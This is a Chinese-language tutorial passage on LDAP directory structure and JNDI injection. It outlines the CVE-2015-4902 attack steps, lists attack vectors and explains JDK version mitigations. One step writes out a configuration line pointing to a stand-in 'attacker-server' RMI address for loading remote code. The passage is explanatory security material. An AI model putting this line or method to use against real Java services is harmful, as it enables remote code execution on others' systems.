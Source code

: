 LDAP 的目录信息是以树形结构进行存储的，在树根一般定义国家（c=CN）或者域名（dc=com），其次往往定义一个或多个组织（organization，o）或组织单元（organization unit，ou）。一个组织单元可以包含员工、设备信息（计算机/打印机等）相关信息。例如为公司的员工设置一个DN，可以基于cn或uid（User ID）作为用户账号。如example.com的employees单位员工longofo的DN可以设置为下面这样：

```
uid=longofo,ou=employees,dc=example,dc=com
```

用树形结构表示就是下面这种形式（Person绑定的是类对象）：

![img](https://images.seebug.org/content/images/2019/12/05/1575516121000-17.png-w331s)

# JNDI注入

JNDI注入是BlackHat2016 USA的一个议题[A Journey From JNDI LDAP Manipulation To RCE](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)提出的，最早起源是野外发现的Java Applets 点击播放绕过漏洞（CVE-2015-4902），它的攻击过程可以简单概括为以下几步：

1. 恶意applet使用JNLP实例化JNDI InitialContext
2. javax.naming.InitialContext的构造函数将请求应用程序的JNDI.properties（JNDI配置文件来自恶意网站）
3. 恶意Web服务器将JNDI.properties发送到客户端，内容为：java.naming.provider.url = rmi://attacker-server/Go
4. 在受害者的InitialContext初始化期间查找rmi//attacker-server/Go，攻击者控制的注册表将返回JNDI引用 （javax.naming.Reference）
5. 服务器从RMI注册表接收到JNDI引用后，它将从攻击者控制的服务器获取工厂类，然后实例化工厂以返回 JNDI所引用的对象的新实例
6. 由于攻击者控制了工厂类，因此他可以轻松返回带有静态变量的类初始化程序，运行由攻击者定义的任何Java代码，实现远程代码执行

相同的原理也可以应用于Web应用中。对于**JNDI注入**，有以下两个点需要注意：

1. 仅由InitialContext或其子类初始化的Context对象（InitialDirContext或InitialLdapContext）容易受到JNDI注入攻击
2. 一些InitialContext属性可以被传递给查找的地址/名称覆盖，即上面提到的JNDI动态协议转换

不仅仅是`InitialContext.lookup()`方法会受到影响，其他方法例如`InitialContext.rename()`、 `InitialContext.lookupLink()`最后也调用了`InitialContext.lookup()`。还有其他包装了JNDI的应用，例如Apache's Shiro JndiTemplate、Spring's JndiTemplate也会调用`InitialContext.lookup()`，看下Apache Shiro的JndiTemplate.lookup()：

## 攻击向量

类型

- RMI
- JNDI Reference
- Remote Object（有安全管理器的限制，在上面RMI利用部分也能看到）
- LDAP
- Serialized Object
- JNDI Reference
- Remote Location
- CORBA（议题中有）
- IOR

版本很重要，JNDI注入中不同的攻击向量和利用方式所被限制的版本号都有点不一样

- JDK 6u45、7u21之后：java.rmi.server.useCodebaseOnly的默认值被设置为true。当该值为true时，将禁用自动加载远程类文件，仅从CLASSPATH和当前JVM的java.rmi.server.codebase指定路径加载类文件。使用这个属性来防止客户端VM从其他Codebase地址上动态加载类，增加了RMI ClassLoader的安全性。
- JDK 6u141、7u131、8u121之后：增加了com.sun.jndi.rmi.object.trustURLCodebase选项，默认为false，禁止RMI和CORBA协议使用远程codebase的选项，因此RMI和CORBA在以上的JDK版本上已经无法触发该漏洞，但依然可以通过指定URI为LDAP协议来进行JNDI注入攻击。
- JDK 6u211、7u201、8u191之后：增加了com.sun.jndi.ldap.object.trustURLCodebase选项，默认为false，禁止LDAP协议使用远程codebase的选项，把LDAP协议的攻击途径也给禁了。
